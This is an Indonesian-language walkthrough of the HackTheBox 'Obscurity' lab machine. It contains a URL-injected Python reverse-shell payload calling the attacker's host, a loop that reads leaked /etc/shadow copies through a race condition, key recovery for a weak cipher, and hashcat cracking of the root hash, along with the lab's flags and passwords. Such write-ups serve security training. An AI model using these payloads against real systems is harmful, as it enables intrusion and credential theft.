

# Obscurity (Linux)


HackTheBox Obscurity dengan operating system Linux, nampaknya box ini diharuskan memiliki kreatifitas yang tinggi karena level custom exploitationnya yang tinggi pula.

### Enumeration

Mari kita lakukan recon pertama-tama, dengan menggunakan nmap

```
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-06 00:54 EST
Nmap scan report for 10.10.10.168
Host is up (0.31s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
80/tcp   closed http
8080/tcp open   http-proxy BadHTTPServer
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Fri, 06 Dec 2019 05:55:37
|     Server: BadHTTPServer
|     Last-Modified: Fri, 06 Dec 2019 05:55:37
|     Content-Length: 4171
|     Content-Type: text/html
|     Connection: Closed
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>0bscura</title>
|     <meta http-equiv="X-UA-Compatible" content="IE=Edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta name="keywords" content="">
|     <meta name="description" content="">
|     <!-- 
|     Easy Profile Template
|     http://www.templatemo.com/tm-467-easy-profile
|     <!-- stylesheet css -->
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/templatemo-blue.css">
|     </head>
|     <body data-spy="scroll" data-target=".navbar-collapse">
|     <!-- preloader section -->
|     <!--
|     <div class="preloader">
|     <div class="sk-spinner sk-spinner-wordpress">
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Fri, 06 Dec 2019 05:55:38
|     Server: BadHTTPServer
|     Last-Modified: Fri, 06 Dec 2019 05:55:38
|     Content-Length: 4171
|     Content-Type: text/html
|     Connection: Closed
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>0bscura</title>
|     <meta http-equiv="X-UA-Compatible" content="IE=Edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta name="keywords" content="">
|     <meta name="description" content="">
|     <!-- 
|     Easy Profile Template
|     http://www.templatemo.com/tm-467-easy-profile
|     <!-- stylesheet css -->
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/templatemo-blue.css">
|     </head>
|     <body data-spy="scroll" data-target=".navbar-collapse">
|     <!-- preloader section -->
|     <!--
|     <div class="preloader">
|_    <div class="sk-spinner sk-spinner-wordpress">
|_http-server-header: BadHTTPServer
|_http-title: 0bscura
9000/tcp closed cslistener
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.80%I=7%D=12/6%Time=5DE9ED1C%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x20Fri,\x2006\x20Dec\x2020
SF:19\x2005:55:37\nServer:\x20BadHTTPServer\nLast-Modified:\x20Fri,\x2006\
SF:x20Dec\x202019\x2005:55:37\nContent-Length:\x204171\nContent-Type:\x20t
SF:ext/html\nConnection:\x20Closed\n\n<!DOCTYPE\x20html>\n<html\x20lang=\"
SF:en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\t<title>0bscura</title>\
SF:n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20content=\"IE=Edge\">\n\t<
SF:meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-s
SF:cale=1\">\n\t<meta\x20name=\"keywords\"\x20content=\"\">\n\t<meta\x20na
SF:me=\"description\"\x20content=\"\">\n<!--\x20\nEasy\x20Profile\x20Templ
SF:ate\nhttp://www\.templatemo\.com/tm-467-easy-profile\n-->\n\t<!--\x20st
SF:ylesheet\x20css\x20-->\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/boo
SF:tstrap\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/font-a
SF:wesome\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/templa
SF:temo-blue\.css\">\n</head>\n<body\x20data-spy=\"scroll\"\x20data-target
SF:=\"\.navbar-collapse\">\n\n<!--\x20preloader\x20section\x20-->\n<!--\n<
SF:div\x20class=\"preloader\">\n\t<div\x20class=\"sk-spinner\x20sk-spinner
SF:-wordpress\">\n")%r(HTTPOptions,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x20
SF:Fri,\x2006\x20Dec\x202019\x2005:55:38\nServer:\x20BadHTTPServer\nLast-M
SF:odified:\x20Fri,\x2006\x20Dec\x202019\x2005:55:38\nContent-Length:\x204
SF:171\nContent-Type:\x20text/html\nConnection:\x20Closed\n\n<!DOCTYPE\x20
SF:html>\n<html\x20lang=\"en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\t
SF:<title>0bscura</title>\n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20co
SF:ntent=\"IE=Edge\">\n\t<meta\x20name=\"viewport\"\x20content=\"width=dev
SF:ice-width,\x20initial-scale=1\">\n\t<meta\x20name=\"keywords\"\x20conte
SF:nt=\"\">\n\t<meta\x20name=\"description\"\x20content=\"\">\n<!--\x20\nE
SF:asy\x20Profile\x20Template\nhttp://www\.templatemo\.com/tm-467-easy-pro
SF:file\n-->\n\t<!--\x20stylesheet\x20css\x20-->\n\t<link\x20rel=\"stylesh
SF:eet\"\x20href=\"css/bootstrap\.min\.css\">\n\t<link\x20rel=\"stylesheet
SF:\"\x20href=\"css/font-awesome\.min\.css\">\n\t<link\x20rel=\"stylesheet
SF:\"\x20href=\"css/templatemo-blue\.css\">\n</head>\n<body\x20data-spy=\"
SF:scroll\"\x20data-target=\"\.navbar-collapse\">\n\n<!--\x20preloader\x20
SF:section\x20-->\n<!--\n<div\x20class=\"preloader\">\n\t<div\x20class=\"s
SF:k-spinner\x20sk-spinner-wordpress\">\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.18 seconds
```


Ada tampilan seperti halaman blog tentang 0bscura, jika scroll kebawah maka kita akan mendapatkan clue seperti


Nampaknya pembuat box menginginkan kita menemukan script python SuperSecureServer.py yang ada di sebuah directory. Maka untuk mencarinya kita bisa menggunakan wfuzz

```
wfuzz -c -z file,rockyou.txt --hc 404 http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
```

Kita menemukan script SuperSecureServer.py di directory develop

```
import socket
import threading
from datetime import datetime
import sys
import os
import mimetypes
import urllib.parse
import subprocess
 
respTemplate = """HTTP/1.1 {statusNum} {statusCode}
Date: {dateSent}
Server: {server}
Last-Modified: {modified}
Content-Length: {length}
Content-Type: {contentType}
Connection: {connectionType}
 
{body}
"""
DOC_ROOT = "DocRoot"
 
CODES = {"200": "OK", 
        "304": "NOT MODIFIED",
        "400": "BAD REQUEST", "401": "UNAUTHORIZED", "403": "FORBIDDEN", "404": "NOT FOUND", 
        "500": "INTERNAL SERVER ERROR"}
 
MIMES = {"txt": "text/plain", "css":"text/css", "html":"text/html", "png": "image/png", "jpg":"image/jpg", 
        "ttf":"application/octet-stream","otf":"application/octet-stream", "woff":"font/woff", "woff2": "font/woff2", 
        "js":"application/javascript","gz":"application/zip", "py":"text/plain", "map": "application/octet-stream"}
 
 
class Response:
    def __init__(self, **kwargs):
        self.__dict__.update(kwargs)
        now = datetime.now()
        self.dateSent = self.modified = now.strftime("%a, %d %b %Y %H:%M:%S")
    def stringResponse(self):
        return respTemplate.format(**self.__dict__)
 
class Request:
    def __init__(self, request):
        self.good = True
        try:
            request = self.parseRequest(request)
            self.method = request["method"]
            self.doc = request["doc"]
            self.vers = request["vers"]
            self.header = request["header"]
            self.body = request["body"]
        except:
            self.good = False
 
    def parseRequest(self, request):        
        req = request.strip("\r").split("\n")
        method,doc,vers = req[0].split(" ")
        header = req[1:-3]
        body = req[-1]
        headerDict = {}
        for param in header:
            pos = param.find(": ")
            key, val = param[:pos], param[pos+2:]
            headerDict.update({key: val})
        return {"method": method, "doc": doc, "vers": vers, "header": headerDict, "body": body}
 
 
class Server:
    def __init__(self, host, port):    
        self.host = host
        self.port = port
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.sock.bind((self.host, self.port))
 
    def listen(self):
        self.sock.listen(5)
        while True:
            client, address = self.sock.accept()
            client.settimeout(60)
            threading.Thread(target = self.listenToClient,args = (client,address)).start()
 
    def listenToClient(self, client, address):
        size = 1024
        while True:
            try:
                data = client.recv(size)
                if data:
                    # Set the response to echo back the recieved data 
                    req = Request(data.decode())
                    self.handleRequest(req, client, address)
                    client.shutdown()
                    client.close()
                else:
                    raise error('Client disconnected')
            except:
                client.close()
                return False
    
    def handleRequest(self, request, conn, address):
        if request.good:
#            try:
                # print(str(request.method) + " " + str(request.doc), end=' ')
                # print("from {0}".format(address[0]))
#            except Exception as e:
#                print(e)
            document = self.serveDoc(request.doc, DOC_ROOT)
            statusNum=document["status"]
        else:
            document = self.serveDoc("/errors/400.html", DOC_ROOT)
            statusNum="400"
        body = document["body"]
        
        statusCode=CODES[statusNum]
        dateSent = ""
        server = "BadHTTPServer"
        modified = ""
        length = len(body)
        contentType = document["mime"] # Try and identify MIME type from string
        connectionType = "Closed"
 
 
        resp = Response(
        statusNum=statusNum, statusCode=statusCode, 
        dateSent = dateSent, server = server, 
        modified = modified, length = length, 
        contentType = contentType, connectionType = connectionType, 
        body = body
        )
 
        data = resp.stringResponse()
        if not data:
            return -1
        conn.send(data.encode())
        return 0
 
    def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
            requested = os.path.join(docRoot, path[1:])
            if os.path.isfile(requested):
                mime = mimetypes.guess_type(requested)
                mime = (mime if mime[0] != None else "text/html")
                mime = MIMES[requested.split(".")[-1]]
                try:
                    with open(requested, "r") as f:
                        data = f.read()
                except:
                    with open(requested, "rb") as f:
                        data = f.read()
                status = "200"
            else:
                errorPage = os.path.join(docRoot, "errors", "404.html")
                mime = "text/html"
                with open(errorPage, "r") as f:
                    data = f.read().format(path)
                status = "404"
        except Exception as e:
            print(e)
            errorPage = os.path.join(docRoot, "errors", "500.html")
            mime = "text/html"
            with open(errorPage, "r") as f:
                data = f.read()
            status = "500"
        return {"body": data, "mime": mime, "status": status}
```

Penulis kurang mengerti maksud dari pembuat box karena menurut penulis, script yang diberikan kurang lengkap atau memang disengaja tidak diperlihatkan semuanya, tidak ada body dari scriptnya hanya object-object. Namun ada satu bagian yang menarik perhatian, yaitu fungsi exec di bagian serveDoc. Kita mungkin bisa melakukan RCE, namun perlu menelurusi scriptnya terlebih dahulu baru mendapatkan entry point dari command kita.


Memasukkan directory random, akan menghasilkan code 404, penulis juga menemukan xss reflected yang tadinya dikira bisa digunakan somehow


Namun saat penulis ingin mengembangkan vuln xss tersebut, penulis menemukan hal yang ganjil, setiap kita memasukkan tanda ‘ maka page akan mereturn connection reset


Saat ini penulis memiliki 2 dugaan, bahwa jalan yang harus dilalui adalah exploitasi xss namun ada firewall atau blacklist, atau RCE melalui input url directory seperti yang diduga dari awal setelah membaca script SuperSecureServer.py

Kita ternyata bisa melakukan RCE dan revshell melalui input url tadi

```
http://10.10.10.168:8080/';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.218%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);'
```

### User


Kita mendapatkan revshell sebagai www-data, abaikan error message EOL tersebut.

Masuk ke directory home/robert kita bisa melihat user.txt


Namun www-data tidak memiliki permission untuk membuka user.txt, kita harus mengauthentikasi sebagai robert

Isi dari file check.txt

```
Encrypting this file with your key should result in out.txt, make sure your key is correct!
```

Isi dari file out.txt

```
ÚÈêÚÞØÛÝÝ	×ÐÊß
ÞÊÚÉæßÝËÚÛÚêÙÉëéÑÒÝÍÐ
êÆáÙÞãÒÑÐáÙ¦ÕæØãÊÎÍßÚêÆÝáäè	ÎÍÚÎëÑÓäáÛÌ×	v
```

Isi dari file SuperSecureCrypt.py

```
import sys
import argparse
 
def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted
 
def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
    decrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr - ord(keyChr)) % 255)
        decrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return decrypted
 
parser = argparse.ArgumentParser(description='Encrypt with 0bscura\'s encryption algorithm')
 
parser.add_argument('-i',
                    metavar='InFile',
                    type=str,
                    help='The file to read',
                    required=False)
 
parser.add_argument('-o',
                    metavar='OutFile',
                    type=str,
                    help='Where to output the encrypted/decrypted file',
                    required=False)
 
parser.add_argument('-k',
                    metavar='Key',
                    type=str,
                    help='Key to use',
                    required=False)
 
parser.add_argument('-d', action='store_true', help='Decrypt mode')
 
args = parser.parse_args()
 
banner = "################################\n"
banner+= "#           BEGINNING          #\n"
banner+= "#    SUPER SECURE ENCRYPTOR    #\n"
banner+= "################################\n"
banner += "  ############################\n"
banner += "  #        FILE MODE         #\n"
banner += "  ############################"
print(banner)
if args.o == None or args.k == None or args.i == None:
    print("Missing args")
else:
    if args.d:
        print("Opening file {0}...".format(args.i))
        with open(args.i, 'r', encoding='UTF-8') as f:
            data = f.read()
 
        print("Decrypting...")
        decrypted = decrypt(data, args.k)
 
        print("Writing to {0}...".format(args.o))
        with open(args.o, 'w', encoding='UTF-8') as f:
            f.write(decrypted)
    else:
        print("Opening file {0}...".format(args.i))
        with open(args.i, 'r', encoding='UTF-8') as f:
            data = f.read()
 
        print("Encrypting...")
        encrypted = encrypt(data, args.k)
 
        print("Writing to {0}...".format(args.o))
        with open(args.o, 'w', encoding='UTF-8') as f:
            f.write(encrypted)
```

Isi dari file passwordreminder.txt

```
´ÑÈÌÉàÙÁÑ鯷¿k
```

Kita diberikan sebuah plaintext (check.txt ) sebuah output (out.txt ) dan sebuah script untuk enkripsinya (SuperSecureCrypt.py ) dan password dari user robert (passwordreminder.txt ). Mari kita reverse dan dapatkan key nya untuk melakukan decrypt password robert.

Penulis membuat script dibawah ini untuk mereverse key nya

```
#!/usr/bin/env python3
 
with open('check.txt', 'r', encoding='UTF-8') as f:
    text = f.read()
with open('out.txt', 'r', encoding='UTF-8') as s:
    enc = s.read()
key = ""
for i in range(0,len(text)):
	if(ord(enc[i]) > ord(text[i])):
		key += chr(ord(enc[i]) - ord(text[i]))
	elif(ord(enc[i]) < ord(text[i])):
		key += chr(255+ord(text[i]) + ord(enc[i]))
print(key)
```


Key yang digunakan adalah alexandrovich, mari kita menggunakan SuperSecureCrypt.py untuk decrypt



Password untuk robert didapatkan, SecThruObsFTW

Mari kita login melalui SSH


user.txt : e4493782066b55fe2755708736ada2d7

Setelah menjalankan LinEnum.sh ada bagian yang menarik untuk ditindaklanjuti yaitu

```
[+] We can sudo without supplying a password!
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
 
User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

Baik mari kita ubah fokus kita kepada BetterSSH.py

Pada folder BetterSSH ada BetterSSH.py yang berisi

```
import sys
import random, string
import os
import time
import crypt
import traceback
import subprocess
 
path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
session = {"user": "", "authenticated": 0}
try:
    session['user'] = input("Enter username: ")
    passW = input("Enter password: ")
 
    with open('/etc/shadow', 'r') as f:
        data = f.readlines()
    data = [(p.split(":") if "$" in p else None) for p in data]
    passwords = []
    for x in data:
        if not x == None:
            passwords.append(x)
 
    passwordFile = '\n'.join(['\n'.join(p) for p in passwords]) 
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
    salt = ""
    realPass = ""
    for p in passwords:
        if p[0] == session['user']:
            salt, realPass = p[1].split('$')[2:]
            break
 
    if salt == "":
        print("Invalid user")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    salt = '$6$'+salt+'$'
    realPass = salt + realPass
 
    hash = crypt.crypt(passW, salt)
 
    if hash == realPass:
        print("Authed!")
        session['authenticated'] = 1
    else:
        print("Incorrect pass")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    os.remove(os.path.join('/tmp/SSH/',path))
except Exception as e:
    traceback.print_exc()
    sys.exit(0)
 
if session['authenticated'] == 1:
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
        cmd.extend(command.split(" "))
        proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
 
        o,e = proc.communicate()
        print('Output: ' + o.decode('ascii'))
        print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
```

Pembuat box merancang sebuah script untuk authentication SSH dan shell dengan gayanya sendiri

Script ini yang memiliki permission sebagai root, akan membuka /etc/shadow dan menuliskan user beserta passwordnya di /tmp/SSH/ untuk sementara waktu untuk proses autentikasi dan setelah selesai akan di remove. Disini letak vulernabilitynya, kata kuncinya adalah Race Condition attack

Source yang bagus untuk dibaca : https://www.veracode.com/security/race-condition

Sekarang kita akan mencoba melakukan leak /tmp/SSH/ yang basically /etc/shadow, karena robert tidak memiliki akses /etc/shadow sebagai root

Kita akan membuka SSH session lagi dengan user yang sama, Robert, masuk directory di /tmp/SSH sebelum script BetterSSH.py dijalankan dan melakukan forever looping untuk melakukan cat SSH/* untuk mencoba mendapatkan user dan passwordnya

Forever looping cat di terminal 2

```
while true; do cat /tmp/SSH/* 2>/dev/null; done;
```

Login sebagai robert di terminal 1

```
sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: robert
Enter password: SecThruObsFTW
```


Kita mendapatkan password hash dari root

```
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
```

Penulis akan menggunakan hashcat untuk crack password tersebut

```
hashcat64.exe --force -m 1800 hash.txt rockyou.txt
```

Password root adalah mercedes


# Rooted !